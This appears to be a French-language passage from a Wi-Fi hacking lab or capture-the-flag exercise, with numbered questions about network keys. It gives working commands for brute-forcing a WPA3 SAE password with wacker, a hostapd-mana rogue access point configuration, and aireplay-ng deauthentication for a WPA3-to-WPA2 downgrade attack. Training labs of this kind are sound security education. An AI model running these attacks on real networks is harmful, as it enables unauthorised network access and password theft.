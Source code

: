 15. Quel est la clé du réseau Wi-Fi `wifi-offices` ?

# A la découverte de WPA3 (SAE)

Sur les réseaux en WP3 il est possible de brute-forcer jusqu'à trouver le mot de passe, en utilisant l'outil `wacker`. 
L'outil est disponible ici : https://github.com/blunderbuss-wctf/wacker
Je vous aide, voici la démarche :
```
./wacker.py --wordlist rockyou.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462
```

16. Quel est le mot de passe du réseau `wifi-management` ?

# Attaque downgrade sur WPA3 SAE

Si un réseau de type WPA3 SAE possède un client connecté et capable de fonctionner en WPA2 PSK/WPA3 SAE alors il est possible de faire une attaque Downgrade sur le client, en le forçant à se connecter à un `RogueAP` monté pour l'occasion et paramétré en WPA2, cela permettra d'obtenir un `handshake` à cracker (comme avec wifi-offices). Cependant il faut aussi que le point d'accès supporte la double sécurité PSK/SAE.

Avec `airodump-ng` on peut obtenir cette information en consultant la colonne `Authentication` qui mentionne pour le réseau `wifi-IT` l'information `SAE PSK`.

Donc pour mettre en oeuvre cette attaque, nous allons créer un faux point d'accès Wi-Fi, l'objectif étant de désauthentifier le client légitime pour qu'il se reconnecte à notre point d'accès Wi-Fi, cependant sur WPA3 il existe des protections contre la déauth, encore faut-il que ces protections soient activées...

On peut vérifier cette information en consultant une capture réseau (pcap) réalisée avec `airodump-ng` et en recherchant une trame de type `Beacon`, si on déroule la couche `IEEE 802.11 Wireless Management`, sous `Tag: RSN Information`, dans `RSN Capabilities` on peut vérifier les deux éléments suivants : 
```
Management Frame Protection Required : False
Management Frame Protection Capable : False
```
Dans notre cas, les deux flags sont définis à False, c'est ce que l'on appelle `802.11w`, donc le réseau WPA3 n'est pas protégé contre les déauth.

Donc créez un faux point d'accès Wi-Fi en utilisant `hostapd-mana`, pour cela créez un fichier `hostapd-sae.conf` :
```
interface=wlan1
driver=nl80211
hw_mode=g
channel=11
ssid=wifi-IT
mana_wpaout=hostapd-management.hccapx
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
Démarrez le point d'accès Wi-Fi avec la commande : `hostapd-mana hostapd-sae.conf`
En parallèle, déauthentifiez le client légitime (à vous de remplir les valeurs que vous pouvez obtenir avec airodump-ng) :
```
iwconfig wlan0mon channel 11
aireplay-ng wlan0mon -0 0 -a {BSSID}  -c {@MAC_CLIENTLEGITIME}
```